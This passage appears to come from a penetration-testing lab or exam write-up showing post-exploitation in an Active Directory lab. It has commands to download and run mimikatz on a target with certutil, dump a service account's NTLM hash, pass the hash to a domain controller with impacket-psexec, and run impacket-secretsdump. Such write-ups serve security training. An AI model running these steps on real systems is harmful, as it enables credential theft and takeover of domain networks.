```powershell
type flag.txt && ipconfig
```



```text
OS{e3ac6d83386d30deefbaca59ed6a9f35}
```

### Dump Hashes
Now we can upload `mimikatz` and dump hashes so we can pivot to `DC02`.

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe ./
python3 -m http.server 80
```

Download and execute `mimikatz` on the target.

```powershell
certutil -urlcache -split -f http://192.168.119.149/mimikatz.exe mimikatz.exe
.\mimikatz.exe
```



Now we can dump hashes.

```powershell
privilege::debug
sekurlsa::logonpasswords
```



```text
zensvc:d098fa8675acd7d26ab86eb2581233e5
```

## Pivot to DC02
We can use a pass the hash attack to pass `zensvc`'s hash to the DC since they are a Domain Admin.

```bash
rlwrap impacket-psexec 'exam/zensvc@192.168.149.170' -hashes :d098fa8675acd7d26ab86eb2581233e5
```



### Proof.txt
```powershell
type flag.txt && ipconfig
```



### Dump Hashes
```bash
impacket-secretsdump 'exam/zensvc@192.168.149.170' -hashes :d098fa8675acd7d26ab86eb2581233e5
```

